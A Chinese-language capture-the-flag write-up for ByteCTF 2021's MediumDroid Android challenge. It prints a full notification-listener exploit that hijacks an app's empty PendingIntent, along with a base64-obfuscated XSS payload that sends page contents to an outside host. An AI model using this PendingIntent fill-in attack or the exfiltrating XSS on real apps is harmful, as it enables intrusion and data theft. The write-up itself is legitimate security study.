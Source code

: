 ### MediumDroid of ByteCTF 2021 Quals
- 这里就用中文写吧QAQ
- 前面的没啥就不讲了，可以去比赛的页面看，主要就是绕过域名白名单校验+发任意Intent拉起TestActivity+加载任意URL这一套组合拳，和第二题一样
- 问题是这个JavascriptInterface的接口怎么利用
```java=
@JavascriptInterface
    public void Te3t(String title, String content) {
        if (Build.VERSION.SDK_INT >= 26) {
            ((NotificationManager) getSystemService(NotificationManager.class)).createNotificationChannel(new NotificationChannel("CHANNEL_ID", "CHANNEL_NAME", 4));
        }
        NotificationManagerCompat.from(this).notify(100, new NotificationCompat.Builder(this, "CHANNEL_ID").setContentTitle(title).setContentText(content).setSmallIcon(R.mipmap.ic_launcher).setContentIntent(PendingIntent.getBroadcast(this, 0, new Intent(), 0)).setAutoCancel(true).setPriority(1).build());
    }

```
- 其实答案在`server.py`里面，当时以为这东西三道题都一样的没仔细看QAQ
```python=
def adb_grant_notification(pkg):
    adb(["shell", "cmd", "notification", "allow_listener", f'{pkg}/{pkg}.MagicService'])
#...
adb_grant_notification(ATTACKER)
```
- 这不是明摆着的嘛，通知使用权的权限，然后在onNotificationPosted里面收到通知内容，当然也包括那个我们最需要的PendingIntent
```java=
public class MagicService extends NotificationListenerService {
    private static final String TAG = "MagicService";
    private static final String xssExp = "<img src=\"x\" onerror=\"eval(atob('" +
            "bmV3IEltYWdlKCkuc3JjID0gImh0dHA6Ly90b3V0aWFvLmNvbS5ieXRlY3RmLndybHVzLmNvbT9mbGFn" +
            "PSIgKyBlbmNvZGVVUklDb21wb25lbnQoZG9jdW1lbnQuZ2V0RWxlbWVudHNCeVRhZ05hbWUoImh0bWwi" +
            "KVswXS5pbm5lckhUTUwp'))\">";

    @Override
    public int onStartCommand(Intent intent, int flags, int startId) {
        return Service.START_STICKY_COMPATIBILITY;
    }

    @Override
    public void onNotificationPosted(StatusBarNotification sbn) {
        if (!"com.bytectf.mediumdroid".equals(sbn.getPackageName())) {
            return;
        }
        Notification notification = sbn.getNotification();
        if (notification == null) {
            return;
        }
        Bundle extras = notification.extras;
        if (extras != null) {
            String title = extras.getString(Notification.EXTRA_TITLE, "");
            String content = extras.getString(Notification.EXTRA_TEXT, "");
            Log.d(TAG, "Received notification: Title="+title+", content="+content);
            PendingIntent pendingIntent = notification.contentIntent;
            if (pendingIntent != null) {
//                    Hack the empty PendingIntent
                Intent fillInIntent = new Intent();
                fillInIntent.setClassName("com.bytectf.mediumdroid",
                        "com.bytectf.mediumdroid.FlagReceiver");
                fillInIntent.setAction("com.bytectf.SET_FLAG");
                fillInIntent.putExtra("flag", xssExp);

                try {
                    pendingIntent.send(this, 0, fillInIntent);
                    Log.d(TAG, "PendingIntent sent with SET_FLAG");
                    MainActivity.pendingIntentSent = true;
                } catch (PendingIntent.CanceledException e) {
                    e.printStackTrace();
                }
            }

        }
    }
}

```
- 上面代码也有的，下面就是经典的PendingIntent的fillIn攻击了，直接往里面追加组件名，还有flag的XSS内容，当然别忘了Action要匹配哦。

```java=
Intent fillInIntent = new Intent();
fillInIntent.setClassName("com.bytectf.mediumdroid",
       "com.bytectf.mediumdroid.FlagReceiver");
fillInIntent.setAction("com.bytectf.SET_FLAG");
fillInIntent.putExtra("flag", xssExp);
```
- XSS的内容就直接拿上一道题的就行，不再赘述
```java=
private static final String xssExp = "<img src=\"x\" onerror=\"eval(atob('" +
            "bmV3IEltYWdlKCkuc3JjID0gImh0dHA6Ly90b3V0aWFvLmNvbS5ieXRlY3RmLndybHVzLmNvbT9mbGFn" +
            "PSIgKyBlbmNvZGVVUklDb21wb25lbnQoZG9jdW1lbnQuZ2V0RWxlbWVudHNCeVRhZ05hbWUoImh0bWwi" +
            "KVswXS5pbm5lckhUTUwp'))\">";
```
- 后面就和第二题一样了，symlink + file:// 协议访问，详见Exp
- 然后坑爹的地方就来了
```
2021-10-19 21:11:49.217 897-927/? W/BroadcastQueue: Background execution not allowed: receiving Intent { act=com.bytectf.SET_FLAG flg=0x10 (has extras) } to com.bytectf.mediumdroid/.FlagReceiver
```
- 这东西我说实话，有点尴尬的，因为他题目里面注册的是Manifest广播接收器，这个东西在API 27上面是不能用于收自定义广播的，基本上都收不到
- 那么问题来了，那题目的FLAG咋设置的？其实人家是用adb命令还是root用户执行的，root发的广播不会有限制，但是实际上这里我们一个普通应用发这个PendingIntent，对面是收不到的。
```python=
def adb_broadcast(action, receiver, extras=None):
    args = ["shell", "su", "root", "am", "broadcast", "-W", "-a", action, "-n", receiver]
    if extras:
        for key in extras:
            args += ["-e", key, extras[key]]
    adb(args)
```
- 当然了云端环境是AVD，可能是关了什么东西，实际上这个题还是可以打成功的，也有队伍拿分。